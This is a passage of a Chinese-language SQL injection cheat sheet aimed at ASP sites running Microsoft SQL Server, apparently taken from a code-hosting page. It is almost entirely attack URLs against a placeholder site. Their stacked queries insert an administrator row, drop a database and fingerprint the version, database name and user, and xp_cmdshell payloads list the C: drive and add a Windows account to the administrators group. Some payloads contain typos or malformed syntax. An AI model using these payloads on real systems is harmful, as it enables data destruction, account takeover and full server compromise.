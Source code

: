 ### 新添加一个管理员

语句为：;insert into 表名 values(内容)--

```
在admin表中添加一个username为wzh，password为123的管理员
http://www.xxx.com/xxx.asp?id=xx;insert into admin values(wzh,123)--
```

### 删除数据库

语句为：;drop databse 数据库名

```
删除数据库hack
http://www.xxx.com/xxx.asp?id=xx;drop database hacck
```

##  获得数据库相关信息

```
获得数据库版本：http://www.xxx.com/xxx.asp?id=xx and (select @@version) > 0
获得当前数据库名：http://www.xxx.com/xxx.asp?id=xx and db_name() > 0
获得当前数据库用户名：http://www.xxx.com/xxx.asp?id=xx and user > 0
注：user、SESSION、CURRENT_USER、SYSTEM_USER都可以获得当前数据库用户名
判断是否支持多句查询：http://www.xxx.com/xxx.asp?id=xx;declare @a int--
判断是否支持子查询：http://www.xxx.com/xxx.asp?id=xx and (select count(1) from [sysobjects]) >= 0
```

## 利用数据库的扩展存储过程(exec master..xp_cmdshell)

注：主要在;exec master..xp_cmdshell后加上引号和引号内写入一些DOS命令

## 查看服务器上的C盘根目录下的文件和文件夹

```
http://www.xxx.com/xxx.asp?id=xx;exec master..xp_cmdshell 'dir C:\'
```

## 加一个管理员账号

```
往服务器里面加了一个123的管理员
http://www.xxx.com/xxx.asp?id=xx;exec master..xp_cmdshell 'net user 123 123/add'
http://www.xxx.com/xxx.asp?id=xx;exec master..xp_cmdshell 'net localgroup administrators 123/add'
```

## 关于扩展存储过程

### 判断扩展存储过程是否存在

```
http://www.xxx.com/xxx.asp?id=xx and SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell'
如果返回正常则说明扩展存储过程存在，返回不正常的话就说明不存在。
```
